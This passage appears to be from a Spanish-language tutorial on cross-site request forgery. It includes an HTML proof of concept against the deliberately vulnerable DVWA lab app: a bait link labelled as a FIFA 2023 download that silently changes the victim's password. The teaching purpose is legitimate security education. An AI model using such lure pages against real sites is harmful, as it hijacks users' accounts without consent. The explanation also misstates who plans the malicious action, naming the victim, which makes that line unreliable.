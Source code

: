 El cross-site request forgery (CSRF) es un ciberataque web que consiste en realizar tareas dentro de una aplicación por medio de la ejecución de un enlace en el navegador de la víctima. El payload de este ciberataque se ejecuta por medio de un enlace que se crea a partir de una petición que contiene la acción maliciosa planeada por la víctima. Para entender de manera práctica cómo todo esto es posible, a continuación veremos un ejemplo de cross-site request forgery en la aplicación deliberadamente vulnerable DVWA.
```
<!DOCTYPE html>
<html lang="en">
<head>
	<meta charset="UTF-8">
	<meta name="viewport" content="width=dwvice-width, initial-scale=1.0">
	<title>Document</title>
</head>
<body>
	<h3>Click to download FIFA 2023</h3>
	<a href="http://localhost/DVWA/vulnerabilities/csrf/?password_new=12345&password_conf=12345&Change=Change#">FIFA 2023</a>
</body>
</html>
```
